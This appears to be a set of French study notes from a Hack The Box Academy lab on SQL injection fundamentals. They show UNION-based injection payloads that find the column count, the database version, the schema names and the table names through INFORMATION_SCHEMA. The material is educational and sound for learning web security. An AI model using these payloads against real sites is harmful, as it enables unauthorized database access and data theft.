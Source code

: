 Avec UNION : 

```sql
cn' UNION select 1,2,3,4-- -
```

On aura une erreur tant que le select ne correspond pas au nombre exact de colonne.

Trouver quels sont les colonnes affichées : 

```sql
cn' UNION select 1,@@version,3,4-- -
```

## Database Enumeration : 

Pour savoir si on a une BD MySQL : 

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Medium/SQL%20Injection%20Fundamentals/Images/Mysql.png)

```sql
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
```

```sql
SELECT * FROM my_database.users;
```

Dans l'exemple précédent : 

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
cn' UNION select 1,database(),2,3-- -
```

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```
